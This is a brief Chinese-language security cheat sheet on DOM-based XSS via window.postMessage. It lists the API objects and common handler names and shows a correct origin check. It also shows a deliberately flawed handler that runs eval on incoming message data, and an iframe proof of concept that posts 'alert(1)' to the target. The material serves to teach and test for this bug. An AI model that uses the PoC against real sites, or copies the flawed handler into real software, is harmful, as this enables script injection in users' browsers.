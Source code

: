 ## DOM-XSS postMessage

window.postMessage方法可以安全地实现跨域数据传输。通常情况下，两个页面通信需要遵守同源协议(Same-origin policy)，而postMessage方法提供了一种受控机制来规避此限制。只要正确的使用，这种方法就很安全。但是如果使用不当，则存在相当大的风险。

### 常见对象
```
window.postMessage
window.addEventListener("message",callbackFunction,event)
event.origin
event.data
```

### 常见取值函数命名
```
postMessage
handlerMessage
onmessage
receiveMessage
```

### 常见取值函数代码
```javascript
function receiveMessage(event)
{
  if (event.origin !== "http://example.com:8080"){
    return;
  }
  callback(event.data);
}
window.addEventListener("message", receiveMessage, false);
```

### 常见形式
```javascript
function receiveMessage(event) {
    if (event.origin.indexOf("https://mysite.com") >= -1) { //判断event.origin的方式不对，导致可以使用https://a.com/https://mysite.com进行绕过，从而控制来源数据包
        eval(event.data);
    }
}
window.addEventListener("message", receiveMessage, false);
```

### example poc
```html
<iframe src="https://xss.com/" onload="foo()"></iframe>
<script>
    function foo() {
        window[0].postMessage("alert(1)", "*");
    }
</script>
```

